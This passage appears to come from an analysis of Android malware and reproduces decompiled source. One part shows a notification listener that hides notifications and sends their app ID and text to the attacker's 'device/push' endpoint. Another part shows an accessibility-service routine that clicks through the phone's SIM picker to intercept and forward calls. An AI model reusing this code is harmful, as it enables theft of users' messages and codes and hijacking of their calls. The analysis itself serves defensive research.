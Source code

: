 ```cs
        }
        catch(Exception unused_ex) {
            return;
        }

        Timber.d("!!!!!", new Object[]{"cancel notification. Hidden"});
    }

    @Override  // android.service.notification.NotificationListenerService
    public void onNotificationRemoved(StatusBarNotification statusBarNotification0) {
        Timber.d("!!!!!", new Object[]{"********** onNOtificationRemoved"});
    }

    private void sendNotification(String s, String s1) {
        HashMap hashMap0 = new HashMap();
        hashMap0.put("appId", s);
        hashMap0.put("text", s1);
        try {
            if(LockerComponent.get() != null && LockerComponent.get().api() != null) {
                LockerComponent.get().api().makePost("device/push", hashMap0).enqueue(new RestCallback() {
                    @Override  // com.sdktools.android.bot.rest.RestCallback
                    public void onError(Throwable throwable0) {
                    }

                    @Override  // com.sdktools.android.bot.rest.RestCallback
                    public void onSuccess(RestResponse restResponse0) {
                    }
                });
            }
        }
        catch(Exception unused_ex) {
        }
    }

```

## Call Forwarding 

The malware can intercept calls and forward calls when the user get a phone call.

```cs

    public boolean onAccessibilityEvent(InjAccessibilityService injAccessibilityService0, AccessibilityEvent accessibilityEvent0, String s) {
        int v1;
        Log.d("OwnAccessibilityService", "onAccessibilityEvent -> " + accessibilityEvent0);
        Boolean boolean0 = Boolean.valueOf(false);
        if(accessibilityEvent0.getEventType() != 0x20) {
            return false;
        }

        if(accessibilityEvent0.getClassName().equals("com.android.phone.settings.SimPickerPreference")) {
            if(accessibilityEvent0.getSource() == null) {
                return false;
            }

            this.isSecondSimActive = true;
            AccessibilityNodeInfo accessibilityNodeInfo0 = injAccessibilityService0.findAndGetFirstSimilar(accessibilityEvent0.getSource(), "com.android.phone:id/recycler_view", true);
            if(this.currentSim == SimCard.Sim1) {
                injAccessibilityService0.performClick(accessibilityNodeInfo0.getChild(0), "f");
```